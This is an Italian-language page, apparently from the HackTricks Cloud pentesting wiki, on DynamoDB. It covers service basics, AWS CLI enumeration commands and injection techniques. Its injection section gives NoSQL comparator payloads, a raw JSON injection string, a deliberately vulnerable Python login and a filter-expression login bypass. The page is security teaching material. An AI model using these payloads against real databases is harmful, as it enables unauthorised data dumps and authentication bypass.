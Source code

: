 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB è presentato da AWS come un **database NoSQL chiave-valore completamente gestito e serverless**, progettato per alimentare applicazioni ad alte prestazioni indipendentemente dalle loro dimensioni. Il servizio garantisce funzionalità robuste, inclusi misure di sicurezza intrinseche, backup ininterrotti, replica automatizzata in più regioni, caching in memoria integrato e utilità di esportazione dei dati convenienti.

Nel contesto di DynamoDB, invece di stabilire un database tradizionale, **vengono create tabelle**. Ogni tabella richiede la specifica di una **chiave di partizione** come componente integrante della **chiave primaria della tabella**. Questa chiave di partizione, essenzialmente un **valore hash**, gioca un ruolo critico sia nel recupero degli elementi che nella distribuzione dei dati tra vari host. Questa distribuzione è fondamentale per mantenere sia la scalabilità che la disponibilità del database. Inoltre, c'è un'opzione per incorporare una **chiave di ordinamento** per affinare ulteriormente l'organizzazione dei dati.

### Encryption

Per impostazione predefinita, DynamoDB utilizza una chiave KMS che **appartiene ad Amazon DynamoDB,** non nemmeno alla chiave gestita da AWS che almeno appartiene al tuo account.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

È possibile **pianificare** la generazione di **backup delle tabelle** o crearli su **richiesta**. Inoltre, è anche possibile abilitare il **recupero point-in-time (PITR) per una tabella.** Il recupero point-in-time fornisce backup continui dei tuoi dati DynamoDB per **35 giorni** per aiutarti a proteggerti da operazioni di scrittura o cancellazione accidentali.

È anche possibile esportare **i dati di una tabella in S3**, ma la tabella deve avere **PITR abilitato**.

### GUI

C'è una GUI per i servizi Dynamo locali come [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), ecc, che potrebbe essere utile: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Accesso non autenticato

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Persistenza

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## Iniezione DynamoDB

### Iniezione SQL

Ci sono modi per accedere ai dati di DynamoDB con **sintassi SQL**, quindi, tipiche **iniezioni SQL sono anche possibili**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### Iniezione NoSQL

In DynamoDB possono essere utilizzate diverse **condizioni** per recuperare dati, come in una comune iniezione NoSQL se è possibile **collegare più condizioni per recuperare** dati potresti ottenere dati nascosti (o scaricare l'intera tabella).\
Puoi trovare qui le condizioni supportate da DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

Nota che **diverse condizioni** sono supportate se i dati vengono accessi tramite **`query`** o tramite **`scan`**.

{% hint style="info" %}
In realtà, le azioni **Query** devono specificare la **condizione "EQ" (uguale)** nella chiave **primaria** per funzionare, rendendola molto **meno soggetta a iniezioni NoSQL** (e rendendo anche l'operazione molto limitata).
{% endhint %}

Se puoi **cambiare il confronto** effettuato o aggiungerne di nuovi, potresti recuperare più dati.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Iniezione Json Raw

{% hint style="danger" %}
**Questa vulnerabilità si basa su Scan Filter di dynamodb che ora è deprecato!**
{% endhint %}

**DynamoDB** accetta oggetti **Json** per **cercare** dati all'interno del DB. Se scopri che puoi scrivere nell'oggetto json inviato per la ricerca, potresti eseguire il dump del DB, tutto il contenuto.

Ad esempio, iniettando in una richiesta come:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

un attaccante potrebbe iniettare qualcosa come:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

correggi la condizione "EQ" cercando l'ID 1000 e poi cercando tutti i dati con una stringa Id maggiore di 0, che è tutto.

Un altro **esempio vulnerabile che utilizza un login** potrebbe essere:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Questo sarebbe vulnerabile a:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Alcuni SDK consentono di utilizzare una stringa che indica il filtraggio da eseguire, come: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Devi sapere che cercando in DynamoDB per **sostituire** un **valore** di attributo nelle **espressioni di filtro** mentre si scansionano gli elementi, i token devono **iniziare** con il carattere **`:`**. Tali token saranno **sostituiti** con il **valore dell'attributo effettivo durante l'esecuzione**.

Pertanto, un login come quello precedente può essere bypassato con qualcosa del tipo:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica l'hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
